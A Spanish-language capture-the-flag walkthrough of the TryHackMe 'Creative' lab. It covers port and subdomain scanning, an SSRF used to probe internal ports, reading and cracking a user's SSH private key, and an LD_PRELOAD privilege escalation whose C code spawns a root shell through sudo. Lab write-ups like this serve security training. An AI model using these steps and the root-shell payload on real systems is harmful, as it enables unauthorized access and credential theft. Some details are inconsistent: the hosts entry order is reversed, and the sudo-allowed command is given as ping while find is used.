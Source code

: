 https://tryhackme.com/r/room/creative
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.39.180
```
![[Pasted image 20240428180008.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80 -Pn 10.10.39.180
```
![[Pasted image 20240428180208.png]]

## Añadimos el nombre de domnio al etc/hosts
```
creative.thm 10.10.39.180
```
## Gobuster
```
gobuster dir -u http://creative.thm -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
## FFUZ
```
ffuf -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  -fw 6
```
Encontramos un beta.creative.thm con un SSRF

# Fase de ataque
# SSRF
Podemos hacer request al localhost
1. Capturamos la petición con Burpsuite
2. Lo mandamos al Intruder
![[Pasted image 20240428185523.png]]
3. Creamos un puertos.txt con todos los puertos para hacer descubrimiento de puertos interno
```
seq 65535 > ports.txt
```
4. Como la web comprueba si la url esta viva o no poniendo "dead". Metemos una opcion que diga si en la web pone dead
5. Lanzamos el ataque
6. Filtramos por lo que no tengan la palabra dead
![[Pasted image 20240428185823.png]]
Podemos ver el puerto 80 y el 1337

## Directory lisiting
La web es el directorio del sistema
1. Buscamos el home del usuario
2. Sacamos su clave privada
![[Pasted image 20240428190346.png]]
![[Pasted image 20240428191046.png]]
3. Nos conectamos por SSH
```
ssh saad@10.10.39.180 -i id_rsa 
```
Pide passphrase

## Crack passphrase
1. Convertimos la clave privadaa formato john
```
ssh2john id_rsa > id_rsa.john
```
2. La crackeamos con john
```
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```
Found!
3. Nos conectamos por SSH
```
ssh saad@10.10.39.180 -i id_rsa 
```
[-] ==pwned!==

# Privilege Escalation
Dentro de .bash_history encontramos la contraseña de saad
![[Pasted image 20240428192109.png]]
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegioss puede utilizar el usuario
```
sudo -l
```
![[Pasted image 20240428192155.png]]
Vemos que puede utilizar ping y hay una variable LD_PRELOAD
## LD_PRELOAD
1. Creamos un programa en C en /tmp que lanza una terminal root
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
2. Compilamos
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Se crea un archivo shell.so
3. Ejecutamos el shell con el comando con privilegios
```
sudo LD_PRELOAD=/tmp/shell.so find
```
[+] ==pwned!==
